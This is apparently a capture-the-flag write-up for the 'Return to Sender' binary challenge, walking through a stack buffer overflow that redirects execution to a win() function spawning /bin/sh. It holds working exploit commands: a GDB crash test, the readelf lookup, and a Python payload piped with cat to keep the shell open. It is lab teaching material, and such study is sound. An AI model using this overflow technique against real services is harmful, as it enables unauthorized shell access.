 # Return to Sender (Binary)

![title](images/title.png)

## Initial Thoughts

* After cat'ing the source, appears to be simple ROP to win function

# Walkthrough

* Fire up GDB and see if we can get a seg fault throwing a bunch of A's at it. After some trial and error we can verify control of the IP with the below command

__run < <(python -c 'print "A"*20+"BBBB"')__
Giving us the error:
Program received signal SIGSEGV (fault address 0x42424242)
__GOOD__

* The next step is to find the address of the win function if ASLR is disabled. We will use **readelf -s ./return-to-sender | less** to accomplish this.

![Win Address](images/win.png)

* **0x080491b6** is the address of the win() function

* Now lets substitue the B's in our python command with the win function address, making sure to keep endianess intact

__python -c 'print "A"*20+"\xb6\x91\x04\x08"' | ./return-to-sender__

* This still segfaults, but why? After some thought it makes sense because the program is executing the win function which is /bin/sh then continuing after that, resulting in a segfault. The solution is to combo our command with a simple cat command to keep the newly acquired shell open, allowing us to cat the flag.txt file (hopefully) The below command results in a successful attempt and all that is left is to attack the server where the flag is contained.

```
(python -c 'print "A"*20+"\xb6\x91\x04\x08"'; cat) | ./return-to-sender 
Where are you sending your mail to today? Alright, to AAAAAAAAAAAAAAAAAAAA� it goes!
ls
images	return-to-sender  return-to-sender.c  scripts
```
* The last step is to attack the server with the overflow and win address, we will use python for its simplicity and effectiveness

[Script](scripts/apple.py)

* The script activates interactive mode allowing us to cat the flag.

<details>
	<summary>Flag</summary>
	
![Flag](images/flag.png)

</details>